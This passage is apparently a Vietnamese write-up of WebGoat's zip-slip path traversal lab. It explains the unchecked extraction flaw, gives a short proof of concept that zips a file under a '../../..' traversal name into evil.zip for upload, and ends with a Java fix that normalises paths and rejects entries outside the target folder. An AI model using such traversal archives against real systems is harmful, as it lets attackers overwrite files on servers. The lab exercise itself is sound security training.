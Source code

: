 - Khi giải nén file thì không kiểm tra kỹ tên file, điều này khiến cho kẻ tấn công có thể thay đổi tên file nén → dẫn đến có thể kiểm soát được đường dẫn mà file giải nén được giải nén.

![image.png]((A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%2021.png)

### POC

- Tạo một đường dẫn muốn tấn công trên máy attack, ở đây là `/home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd/shr3wd.jpg`

```bash
mkdir /home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd
cd /home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd
file shr3wd.jpg
```

- Sau đó nén file với đường dẫn này

```bash
zip evil.zip ../../../../../../../../home/webgoat/.webgoat-2023.8/PathTraversal/shr3wd/shr3wd.jpg
```

- Upload file `evil.zip`này lên để bypass được

### Cách khắc phục

```java
try {
    Path uploadedZipFile = tmpZipDirectory.resolve(file.getOriginalFilename());
    FileCopyUtils.copy(file.getBytes(), uploadedZipFile.toFile());

    try (ZipFile zip = new ZipFile(uploadedZipFile.toFile())) {
        Enumeration<? extends ZipEntry> entries = zip.entries();
        while (entries.hasMoreElements()) {
            ZipEntry e = entries.nextElement();

            Path resolvedPath = tmpZipDirectory.resolve(e.getName()).normalize();

            if (!resolvedPath.startsWith(tmpZipDirectory)) {
                throw new IOException("Zip entry is outside of the target directory: " + e.getName());
            }

            if (e.isDirectory()) {
                Files.createDirectories(resolvedPath);
            } else {
                Files.createDirectories(resolvedPath.getParent());

                try (InputStream is = zip.getInputStream(e)) {
                    Files.copy(is, resolvedPath, StandardCopyOption.REPLACE_EXISTING);
                }
            }
        }
    }

    return isSolved(currentImage, getProfilePictureAsBase64());
} catch (IOException e) {
    return failed(this).output("An error occurred during file processing.").build();
}

```